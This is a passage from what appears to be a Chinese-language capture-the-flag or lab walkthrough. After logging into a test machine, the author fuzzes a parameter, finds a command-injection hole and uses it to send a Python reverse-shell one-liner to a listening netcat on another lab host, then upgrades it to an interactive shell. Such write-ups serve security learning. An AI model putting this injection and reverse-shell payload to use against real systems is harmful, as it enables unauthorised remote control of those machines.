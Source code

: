   

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到密码，登录看看

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

登录后跳转到system目录，源码中有段提示说做什么都可以，猜测是命令执行漏洞。做个模糊测试，暴破下参数

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到参数，我们试下效果

```
http://10.0.0.113/sysadmin/system/?mission=id
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

现在可以反弹shell到攻击机上

### 反弹Shell

1。攻击机监听4444端口

```
nc -lvvp 4444
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

2。执行反弹shell命令

```
http://10.0.0.113/sysadmin/system/?mission=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

反弹成功，互换到交互式shell

```
python3 -c 'import pty;pty.spawn("/bin/bash")'  
export TERM=xterm  
Ctrl+z  
stty raw -echo;fg  
reset
```
